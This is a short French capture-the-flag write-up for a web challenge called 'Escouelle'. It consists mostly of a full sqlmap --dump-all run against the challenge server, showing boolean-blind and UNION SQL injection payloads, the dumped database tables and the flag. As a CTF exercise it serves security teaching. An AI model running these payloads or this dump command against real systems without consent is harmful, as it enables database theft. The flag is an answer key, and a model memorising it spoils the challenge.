



# Escouelle



## Write-Up

Le challenge nécessite de se connecter à une application web ressortant les résultats d'une chasse au trésor.

La page d'accueil nous invite à aller consulter les résultats du premier candidat.





Un simple sqlmap nous donne la réponse.

```
$ sqlmap -u "http://challs.hackagou.nc:5003/challenges/0001-0000" --dump-all
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.10#pip}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:15:39 /2023-10-13/

[15:15:39] [WARNING] you've provided target URL without any GET parameters (e.g. 'http://www.site.com/article.php?id=1') and without providing any POST parameters through option '--data'
do you want to try URI injections in the target URL itself? [Y/n/q] 
[15:15:40] [INFO] flushing session file
[15:15:40] [INFO] testing connection to the target URL
[15:15:40] [INFO] checking if the target is protected by some kind of WAF/IPS
[15:15:40] [INFO] testing if the target URL content is stable
[15:15:40] [INFO] target URL content is stable
other non-custom parameters found. Do you want to process them too? [Y/n/q] 
[15:15:41] [INFO] testing if URI parameter '#1*' is dynamic
[15:15:41] [INFO] URI parameter '#1*' appears to be dynamic
[15:15:41] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[15:15:41] [INFO] testing for SQL injection on URI parameter '#1*'
[15:15:41] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:15:41] [WARNING] reflective value(s) found and filtering out
[15:15:41] [INFO] URI parameter '#1*' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="obtenu")
[15:15:41] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'SQLite' 
it looks like the back-end DBMS is 'SQLite'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'SQLite' extending provided level (1) and risk (1) values? [Y/n] 
[15:15:43] [INFO] testing 'Generic inline queries'
[15:15:43] [INFO] testing 'SQLite inline queries'
[15:15:43] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[15:15:43] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[15:15:43] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[15:15:43] [INFO] testing 'SQLite > 2.0 OR time-based blind (heavy query)'
[15:15:43] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query - comment)'
[15:15:43] [INFO] testing 'SQLite > 2.0 OR time-based blind (heavy query - comment)'
[15:15:43] [INFO] testing 'SQLite > 2.0 time-based blind - Parameter replace (heavy query)'
[15:15:43] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[15:15:43] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[15:15:43] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[15:15:43] [INFO] target URL appears to have 2 columns in query
[15:15:43] [INFO] URI parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
[15:15:43] [WARNING] applying generic concatenation (CONCAT)
[15:15:43] [WARNING] parameter length constraining mechanism detected (e.g. Suhosin patch). Potential problems in enumeration phase can be expected
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 54 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://challs.hackagou.nc:5003/challenges/0001-0000' AND 4553=4553 AND 'mbYA'='mbYA

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: http://challs.hackagou.nc:5003/challenges/0001-0000' UNION ALL SELECT CHAR(113,107,98,98,113)||CHAR(86,67,79,87,99,81,75,103,103,77,114,67,108,68,120,113,84,114,121,103,68,73,98,67,76,98,71,108,111,121,86,84,98,114,83,122,109,100,83,111)||CHAR(113,120,112,120,113),NULL-- xKkZ
---
[15:15:44] [INFO] testing SQLite
[15:15:44] [INFO] confirming SQLite
[15:15:44] [INFO] actively fingerprinting SQLite
[15:15:44] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[15:15:44] [INFO] sqlmap will dump entries of all tables from all databases now
[15:15:44] [INFO] fetching tables for database: 'SQLite_masterdb'
[15:15:44] [INFO] fetching columns for table 'users' 
[15:15:44] [INFO] fetching entries for table 'users'
Database: <current>
Table: users
[3 entries]
+----+-----------+----------------+------------+--------------+
| id | cpf       | email          | birth_date | phone_number |
+----+-----------+----------------+------------+--------------+
| 1  | 0001-0000 | nepo@open.nc   | 01-01-1990 | 1234567899   |
| 2  | 1337-1212 | yona@open.nc   | 01-01-1990 | 1234567899   |
| 3  | 4242-8829 | parrot@open.nc | 01-01-1990 | 1234567899   |
+----+-----------+----------------+------------+--------------+

[15:15:44] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/yoan/.local/share/sqlmap/output/challs.hackagou.nc/dump/SQLite_masterdb/users.csv'
[15:15:44] [INFO] fetching columns for table 'flag' 
[15:15:44] [INFO] fetching entries for table 'flag'
Database: <current>
Table: flag
[3 entries]
+---------+---------------------------------+
| flag_id | flag                            |
+---------+---------------------------------+
| 0       | OPENNC{5QLi_15_N07_C0mPL1C473d} |
| 0       | OPENNC{5QLi_15_N07_C0mPL1C473d} |
| 0       | OPENNC{5QLi_15_N07_C0mPL1C473d} |
+---------+---------------------------------+

[15:15:44] [INFO] table 'SQLite_masterdb.flag' dumped to CSV file '/home/yoan/.local/share/sqlmap/output/challs.hackagou.nc/dump/SQLite_masterdb/flag.csv'
[15:15:44] [INFO] fetching columns for table 'challenges' 
[15:15:44] [INFO] fetching entries for table 'challenges'
Database: <current>
Table: challenges
[9 entries]
+----+---------+-------+-------------+
| id | user_id | score | title       |
+----+---------+-------+-------------+
| 1  | 1       | 8     | Challenge A |
| 2  | 1       | 9     | Challenge B |
| 3  | 2       | 8     | Challenge A |
| 4  | 2       | 9     | Challenge B |
| 5  | 2       | 0     | Challenge C |
| 6  | 3       | 5     | Challenge A |
| 7  | 3       | 9     | Challenge B |
| 8  | 3       | 6     | Challenge C |
| 9  | 3       | 10    | Challenge D |
+----+---------+-------+-------------+

[15:15:44] [INFO] table 'SQLite_masterdb.challenges' dumped to CSV file '/home/yoan/.local/share/sqlmap/output/challs.hackagou.nc/dump/SQLite_masterdb/challenges.csv'
[15:15:44] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 35 times, 404 (Not Found) - 6 times
[15:15:44] [INFO] fetched data logged to text files under '/home/yoan/.local/share/sqlmap/output/challs.hackagou.nc'

[*] ending @ 15:15:44 /2023-10-13/
```

Le flag est donc OPENNC{5QLi_15_N07_C0mPL1C473d}
